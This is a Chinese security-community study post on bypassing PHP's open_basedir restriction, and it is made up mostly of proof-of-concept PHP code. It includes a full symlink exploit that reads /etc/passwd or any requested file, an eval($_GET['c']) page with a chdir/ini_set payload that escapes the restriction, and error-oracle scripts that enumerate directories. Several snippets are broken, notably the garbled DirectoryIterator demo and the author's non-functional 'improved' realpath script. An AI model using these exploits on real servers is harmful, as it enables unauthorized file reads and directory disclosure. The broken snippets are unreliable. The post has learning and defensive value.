

# 奇安信攻防社区-Open_basedir绕过学习

# introduction

**Open\_basedir**是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open\_basedir的检查。Open\_basedir实际上是一些目录的集合，在定义了open\_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。

设置open\_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。  
!\[\[basedir1.png\]\]  
可以在**php.ini**配置文件中进行配置



# globe://伪协议

那么在使用这个协议之前那肯定得知道这个协议是什么吧，所以也是去看了一下php的doc [https://www.php.net/manual/zh/wrappers.glob.php](https://www.php.net/manual/zh/wrappers.glob.php)

### Simple Globe://

可以看见官方给出的demo

```php
<?php  
// 循环 ext/spl/examples/ 目录里所有 *.php 文件  
// 并打印文件名和文件尺寸  
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");  
foreach($it as $f) {  
printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);  
}  
?>
```

这个只做一个引入，因为单纯的使用globe伪协议是没有办法绕过的，并且不能列出前面的目录以及以外的文件，更不能读取文件内容所以单纯的使用并没有什么好玩的

### Diretorylterator + Globe://

关于Diretorylterator这个类的一些介绍： [https://www.php.net/manual/zh/class.directoryiterator.php](https://www.php.net/manual/zh/class.directoryiterator.php)  
php5中增加的一个类，为用户提供一个简单的查看目录的接口  
demo2:

```php
$result = array{};
$mulu =new Diretorylterator("globle:///*");
foreach($mulu as $a){
    $result = $a->__toString();
}
sort($result);
foreach($result as $s){
        echo "{$s}<br/>";
}
```

这里自己打了一遍，因为不想贴别人的代码...（主要是自己打一遍比较好）,绕过条件：PHP>5.3 && Linux环境下才可

### opendir()+readdir()+glob://

-   opendir()-->打开目录
-   readdir()->返回目录中下一个文件的文件名。文件名以在文件系统中的排序返回。

所以脚本如下

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

### scandir()+glob://

关于这个解法我不打算去看因为这个也是好像绕不了open\_basedir的  
引用：“这种方法也只能列出根目录和open\_basedir允许目录下的文件。“

# symlink绕过

`symlink()`函数创建一个从指定名称连接的现存目标文件开始的符号连接。： [https://www.php.net/manual/zh/function.symlink.php](https://www.php.net/manual/zh/function.symlink.php)  
用法：  
symlink(string $target, string $link): bool

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../etc/passwd","POC");
unlink("SD");
mkdir("SD");
?>
```

这里的原理就是通过软连接作为一个桥梁来进行绕过  
具体的思路如下：

-   创建了A/B/C/D这个目录
-   创建SD软链接到目录A/B/C/D
-   然后让POC指向SD上面的目录这个时候因为返回后../../../../刚好回到open\_basedir限制的html目录下面所以这里没毛病
-   然后删除了SD软链接又创建了一个文件夹这个时候POC指向的就是:  
    **var/www/html/SD/../../../../etc/passwd**从而进行绕过（这个思路确实好玩）  
    exp

```php
<?php
/* * by phithon * From https://www.leavesongs.com * detail: http://cxsecurity.com/issue/WLB-2009110068 */
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

# realpath列举目录

**Realpath**函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。  
but，在开启了open\_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open\_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。  
所以就是利用这个特性进行猜解，考虑到效率问题，所以利用了Windows下的通配符

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir')); //打印了当前open限制的目录
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

脚本可以列出D:/test/下的文件目录，当然这个只在Windows下适用在linux下面不适用  
这里还有一个缺点就是不能列出来首字母相同的文件，所以我打算改进一下p神的脚本

```php
<?php
// 设置 open_basedir 指令
ini_set('open_basedir', dirname(__FILE__));

// 打印 open_basedir 限制
echo "<b>open_basedir: " . ini_get('open_basedir') . "</b><br />";

// 定义自定义错误处理程序
set_error_handler('isexists');

// 目录和字符
$dir = 'd:/test/';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';

// 迭代字符
for ($i = 0; $i < strlen($chars); $i++) {
    $file = $dir . $chars[$i] . '<>';
    if (file_exists($file)) {
        // 尝试访问文件
        $realpath = realpath($file);
        if ($realpath === false) {
            // 文件无法访问
            trigger_error("File $file is not within allowed directories.", E_USER_WARNING);
        }
    }
    // 如果下一个字符的首字母与当前字符的首字母相同，则跳过
    while ($i < strlen($chars) - 1 && $chars[$i] == $chars[$i + 1]) {
        $i++;
    }
}

// 自定义错误处理程序函数
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    if (preg_match($regexp, $errstr, $matches)) {
        echo "{$matches[1]}<br />";
    }
}
?>
```

# 利用SplFileInfo::getRealPath()列举目录

**SplFileInfo**类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和realpath名字很像的方法叫getRealPath。

这个方法功能和realpath类似，都是获取绝对路径用的。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。

这个方法有个特点：**完全没有考虑open\_basedir**。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。  
所以不像realpath需要考虑是否在open\_basedir下面的条件

P神POC

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

# 利用chdir与ini\_set

首先解释一下**ini\_set**  
[https://www.php.net/manual/zh/function.ini-set](https://www.php.net/manual/zh/function.ini-set)  
这里先放一下demo network师傅的

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

EXP:

```php
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

一些分析：  
[https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)  
好吧我实在是看不下去底层了...还是功底不够..还得练

# GD库imageftbbox/imagefttext

看了一下其实和前面的realpath一样都是通过一些报错来进行猜解  
当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

POC：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

# bindtextdomain暴力执法

emm原理还是一样但是鸡肋，因为Windows下面默认没有这个函数&&linux下面是不能使用通配符进行绕过所以如果上面的方法都没有用才会考虑这些猜解的问题

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

# reference

1、 [https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.htm](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.htm)  
2、 [https://xz.aliyun.com/t/10070?time\_\_1311=mq%2BxBD9QDQe4RDBkPoGkYL5AKeGIhxqGOjeD](https://xz.aliyun.com/t/10070?time__1311=mq%2BxBD9QDQe4RDBkPoGkYL5AKeGIhxqGOjeD)  
3、 [https://www.v0n.top/2020/07/10/open\_basedir%e7%bb%95%e8%bf%87/](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)  
4、 [https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)